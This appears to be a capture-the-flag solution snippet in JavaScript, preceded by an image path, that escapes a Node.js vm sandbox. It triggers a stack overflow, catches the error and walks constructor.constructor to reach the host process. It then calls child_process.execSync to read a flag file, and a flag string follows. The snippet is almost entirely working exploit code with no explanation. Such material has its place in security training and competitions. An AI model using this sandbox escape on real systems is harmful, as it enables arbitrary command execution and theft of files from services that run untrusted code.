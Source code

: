 TODO

aVM2_INTERNAL_TMPNAME = {};
function stack() {
    new Error().stack;
    stack();
}
try {
    stack();
} catch (a$tmpname) {
    a$tmpname.constructor.constructor('return process')().mainModule.require('child_process').execSync('cat s3cr3tf01d3r/f14g_048x6z43y7.txt');}

CTF2024[293455399515]
